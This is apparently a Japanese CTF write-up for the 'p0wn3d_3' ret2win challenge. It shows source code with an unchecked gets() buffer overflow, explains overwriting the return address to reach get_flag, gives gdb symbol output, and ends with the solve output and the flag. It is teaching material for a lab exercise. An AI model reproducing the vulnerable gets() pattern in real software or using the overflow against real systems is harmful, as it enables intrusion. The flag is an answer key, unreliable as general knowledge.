 # p0wn3d_3 - Pwn

Time for a little bit of control flow redirection

nc p0wn3d3.kctf-453514-codelab.kctf.cloud 1337
Unlock Hint for 0 points
Hint: look up what ret2win is


与えられたソースコード
```
#include <stdio.h>
#include <string.h>
#include <unistd.h>



void ignore(void)
{
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
}

void get_flag(void)
{
	 char *args[] = {"/bin/cat", "flag.txt", NULL};
   execve(args[0], args, NULL);
}

int main(void) 
{
	char buf[32];
  ignore(); /* ignore this function */

  printf("Now this is an original challenge. I don't think I've ever seen something like this before\n");
  sleep(2);
	gets(buf);
	puts("Drumroll please!");
	sleep(2);

  return 0;
}
```

## solve

ret2winの脆弱性を利用する
>スタックオーバーフローを利用して、リターンアドレスを書き換え、プログラムの正常な実行フローから特定のwin関数（この場合はget_flag()）にリダイレクトする手法

- gets(buf)関数が使用されていて、長さチェックがないためバッファオーバーフロー脆弱性がある
- bufは32バイトしかありませんが、getsは入力の長さを制限してない
- get_flag()関数があり、呼び出されれば/bin/cat flag.txtを実行してフラグを表示する

```
[ スタック構造 ]
| AAAA.... (32バイト)  |  ← バッファ (buf)
| Saved RBP (8バイト)  |  ← 上書き可能
| Return Address (8バイト) |  ← ここを書き換えれば制御可能！
```

リターンアドレスget_flag()のアドレスを調べる
```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  execve@plt
0x0000000000401050  gets@plt
0x0000000000401060  setvbuf@plt
0x0000000000401070  sleep@plt
0x0000000000401080  _start
0x00000000004010b0  _dl_relocate_static_pie
0x00000000004010c0  deregister_tm_clones
0x00000000004010f0  register_tm_clones
0x0000000000401130  __do_global_dtors_aux
0x0000000000401160  frame_dummy
0x0000000000401162  ignore
0x00000000004011a5  get_flag
0x00000000004011e0  main
0x0000000000401230  __libc_csu_init
0x0000000000401290  __libc_csu_fini
0x0000000000401294  _fini
(gdb) exit
```
0x4011a5がリターンアドレスget_flagと分かった


出力
```
$ python3 solve.py
[+] Opening connection to p0wn3d3.kctf-453514-codelab.kctf.cloud on port 1337: Done
== proof-of-work: disabled ==

[*] Switching to interactive mode
Drumroll please!
wctf{gr4dua73d_fr0m_l1ttl3_p0wn3r!}
[*] Got EOF while reading in interactive
```

## flag
`wctf{gr4dua73d_fr0m_l1ttl3_p0wn3r!}`